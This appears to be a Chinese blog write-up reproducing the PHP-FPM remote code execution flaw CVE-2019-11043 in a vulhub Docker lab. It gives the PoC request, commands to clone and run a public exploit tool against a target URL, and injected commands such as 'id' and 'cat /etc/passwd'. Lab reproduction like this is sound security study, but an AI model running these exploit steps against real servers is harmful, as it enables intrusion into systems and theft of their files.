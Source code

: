 ```yaml
---
title: 漏洞复现-PHP-FPM 远程代码执行漏洞
description: CVE-2019-11043 从一个小的内存溢出到代码执行
author: #有默认值
date: 2024-09-10 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd vulhub/php/CVE-2019-11043
docker-compose up -d 
```

## 漏洞原理
https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md

https://blog.orange.tw/posts/2019-10-an-analysis-and-thought-about-recently/

https://cloud.tencent.com/developer/article/1530703

这是一个非常有趣的漏洞！从一个小的内存缺陷到代码执行。它结合了二进制和网络技术，

## PoC（Proof of Concept） 验证漏洞存在的代码
作者利用了双缓冲机制，如果缓冲区到达末尾（pos > end），PHP-FPM 会创建一个新的缓冲区，并将前一个缓冲区放入结构成员 fcgi_data_seg->next 中。
若有 PHPINFO 页面。获取/info.php/%0a.php ，观察 $_SERVER['PATH_INFO'] 是否损坏！
...
影响版本：PHP 5.6-7.x，Nginx>=0.7.31
## Exp（Exploit）进行实际的攻击利用
安装漏洞利用工具,和利用
```shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go run . "http://your-ip:8080/index.php"
```
![](../assets/img/2024-09-10/iShot_2024-09-10_22.16.48.png)
访问http://your-ip:8080/index.php?a=id，即可查看到id命令已成功执行
![](../assets/img/2024-09-10/iShot_2024-09-10_22.15.45.png)
注意：只有部分PHP-FPM子进程受到了污染，因此请尝试几次以执行RCE命令，会出现成功执行
```shell
/index.php?a=cat /etc/passwd 
```


## 复现总结
无法直接通过url传入反弹shell命令，执行失败

